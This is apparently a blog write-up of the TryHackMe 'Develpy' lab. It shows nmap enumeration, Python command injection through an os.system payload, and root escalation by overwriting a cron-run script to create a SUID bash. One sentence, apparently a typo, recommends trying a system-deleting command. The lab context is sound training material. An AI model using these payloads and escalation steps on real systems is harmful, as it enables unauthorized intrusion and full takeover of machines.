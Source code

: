 ```yaml
---
title: "TryHackMe - Develpy"
author: Nasrallah
description: ""
date: 2023-03-05 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, python, commandinjection, cronjob]
img_path: /assets/img/tryhackme/develpy
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

# **Description**

Hello hackers, I hope you are doing well. We are doing [Develpy](https://tryhackme.com/room/) from [TryHackMe](https://tryhackme.com). This is an easy machine although it is rated medium. We find a python script listening on a high port which accepts input from us. We exploit that by injecting commands and getting a foothold. Once on the machine we find a multiple cronjobs running making easy for is to get root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.102.231                                                                                                                            
Host is up (0.096s latency).                                                                                                                                  
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT      STATE SERVICE           VERSION                                                                                                                     
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                
| ssh-hostkey:                                                                                                                                                
|   2048 78c44084f442138e79f86be46dbfd446 (RSA)                                                                                                               
|   256 259df329a2624b24f28336cfa775bb66 (ECDSA)                                                                                                              
|_  256 e7a007b0b9cb74e9d6167d7a67fec11d (ED25519)                                                                                                            
10000/tcp open  snet-sensor-mgmt?                                              
| fingerprint-strings:                                                         
|   GenericLines:                                                              
|     Private 0days                                                            
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>                            
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0                                                  
|     SyntaxError: unexpected EOF while parsing                           
|   GetRequest:                                                                
|     Private 0days                                                            
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>                            
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>                                
|     NameError: name 'GET' is not defined                                
|   HTTPOptions, RTSPRequest:                                                  
|     Private 0days                                                            
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>                            
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>                                
|     NameError: name 'OPTIONS' is not defined
```

We found two open ports, 22 running SSH as usual and port 10000 is a python script called `exploit.py`.

Let's connect to the port 10000 using netcat.

![](1.png)

The script asks us to enter a number then proceeds to do what looks like to me a ping to localhost.

# **Foothold**

Searching for `python command injection`, i found this [article](https://www.stackhawk.com/blog/command-injection-python/) showcasing how to do so.

![](3.png)

With the payload `__import__('os').system("{command}")`, we can run system commands. The command shown in the article is harmful and recommend you try it because it will delete the system files.

To try if the payload works, we can try running the command `sleep 10` for example and see if the target responds to it by waiting 10 seconds before running the rest of `exploit.py`.

Trying that we indeed see that the script is vulnerable to command injection.

To get a shell, we can enter the following payload that would run `/bin/bash`

```python
__import__('os').system("bash")
```

![](2.png)

Great! We got a shell as user `king`.

# **Privilege Escalation**

On king's home directory two shell file.

![](4.png)

The `run.sh` file seems to kill the listening process for `exploit.py` then runs the same listener again.

the `root.sh` is executing python scrips in `/root/company/media/` directory.

There must be a cronjob on the system that's running those files, let's check

![](5.png)

Indeed there is a cronjob, and we see that root.sh is run by root and that's the file we'll exploit to get a root shell.

First we need remove the root.sh file since it is owned by root and we can't write to it.

```bash
mv root.sh root.sh.bak
```

Now we create a malicious `root.sh` that would make a copy of /bin/bash with suid bit set in the /tmp directory.

```bash
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > root.sh && chmod +x root.sh
```

Now we wait a bit for the cronjob to run and check the /tmp directory.

![](6.png)

Now we execute `/tmp/bash -p` to get a root shell.

```bash
king@ubuntu:~$ /tmp/bash -p
bash: cannot set terminal process group (748): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3# whoami
root
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
